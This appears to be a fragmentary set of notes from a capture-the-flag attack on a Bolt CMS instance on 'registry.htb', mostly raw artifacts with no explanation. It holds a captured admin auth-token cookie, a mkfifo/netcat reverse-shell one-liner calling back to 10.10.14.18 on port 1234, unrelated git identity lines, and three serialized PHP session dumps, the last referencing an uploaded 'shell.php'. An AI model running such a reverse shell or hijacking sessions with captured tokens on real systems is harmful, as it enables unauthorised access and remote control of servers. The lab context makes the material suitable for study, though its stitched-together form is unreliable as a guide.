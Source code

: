 <blockquote>
The bolt_authtoken cookie is used to store a token for your identification in the bolt admin interface after you logged in (if you remove it you will be logged out).
</blockquote>

Cookie: bolt_authtoken=a52cd7688a18a6b0c787aa1539c3c734ae551ae5497b3f8bc8bda953cb65cba2

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 1234 >/tmp/f


git config --global user.name "Bob den Otter"
git config --global user.email bobdenotter@gmail.com

```
a:3:{s:15:"_sf2_attributes";a:2:{s:20:"_csrf/https-user_new";s:43:"OpaDHvzFZJQH0mZo_JDlwlwJ3KOkJQDLX8C6ZV-omjE";s:24:"_csrf/https-content_edit";s:43:"AIAWJDPagn5x8pQy7goMdlbIIzhrANy-7xSeKrfCIrY";}s:12:"_sf2_flashes";a:1:{s:7:"success";a:1:{i:0;s:35:"You've been logged on successfully.";}}s:9:"_sf2_meta";a:3:{s:1:"u";i:1570569906;s:1:"c";i:1570569853;s:1:"l";s:1:"0";}}
```

```
a:3:{s:15:"_sf2_attributes";a:5:{s:20:"_csrf/https-user_new";s:43:"OpaDHvzFZJQH0mZo_JDlwlwJ3KOkJQDLX8C6ZV-omjE";s:24:"_csrf/https-content_edit";s:43:"AIAWJDPagn5x8pQy7goMdlbIIzhrANy-7xSeKrfCIrY";s:14:"authentication";O:30:"Bolt\AccessControl\Token\Token":3:{s:7:"*user";O:25:"Bolt\Storage\Entity\Users":19:{s:5:"*id";i:1;s:11:"*username";s:5:"admin";s:11:"*password";N;s:8:"*email";s:17:"bolt@registry.htb";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-08 21:25:07.090205";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:9:"*lastip";s:12:"192.168.1.52";s:14:"*displayname";s:5:"Admin";s:8:"*stack";a:0:{}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";s:1:"1";s:10:"*user_id";i:1;s:8:"*token";s:64:"a52cd7688a18a6b0c787aa1539c3c734ae551ae5497b3f8bc8bda953cb65cba2";s:7:"*salt";s:32:"f8e7da1a2b9ea7109e0bdeedb6e85135";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-08 21:25:07.092936";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:12:"192.168.1.52";s:12:"*useragent";s:120:"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-22 21:25:07.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1570569907;}s:5:"stack";a:0:{}s:23:"_csrf/https-file_upload";s:43:"pYJR4fLx6gqMfTgPxGduppLKqdiYzkA0i0kjuhEYofA";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1570569941;s:1:"c";i:1570569853;s:1:"l";s:1:"0";}}
```


```
a:3:{s:15:"_sf2_attributes";a:6:{s:16:"_csrf/user_login";s:43:"bqf7H9soxjE6k_yTsXycUSmAxXh72_lvBeXyYkeWFrM";s:18:"_csrf/content_edit";s:43:"y-N3-d898AIt1Okwzyg9KldynhyhxUK2xuX_yJT0ngc";s:14:"authentication";O:30:"Bolt\AccessControl\Token\Token":3:{s:7:"*user";O:25:"Bolt\Storage\Entity\Users":19:{s:5:"*id";i:1;s:11:"*username";s:5:"admin";s:11:"*password";N;s:8:"*email";s:17:"bolt@registry.htb";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-17 14:34:52.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:9:"*lastip";s:10:"10.10.14.2";s:14:"*displayname";s:5:"Admin";s:8:"*stack";a:1:{i:0;s:17:"files://shell.php";}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";i:2;s:10:"*user_id";i:1;s:8:"*token";s:64:"b48aa43041667445fee64f70e3bf680a621bdd650e9efb2ba8c61cb72545619f";s:7:"*salt";s:32:"4df19b4fbbadb9649e3e6c2b1ed3f1ba";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-17 14:34:52.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:10:"10.10.14.2";s:12:"*useragent";s:68:"Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-31 14:34:52.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1571654393;}s:5:"stack";a:1:{i:0;s:17:"files://shell.php";}s:15:"_csrf/file_edit";s:43:"vtjeUz44Q6fL0H6qqQs6QXBdw6PxMtRbLxUScVRIu00";s:17:"_csrf/file_upload";s:43:"AT2sOaPyuPIAqmLsH5hht6AkbBTxVCs1KeHjdUGuNys";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1571654475;s:1:"c";i:1571322886;s:1:"l";i:0;}}
```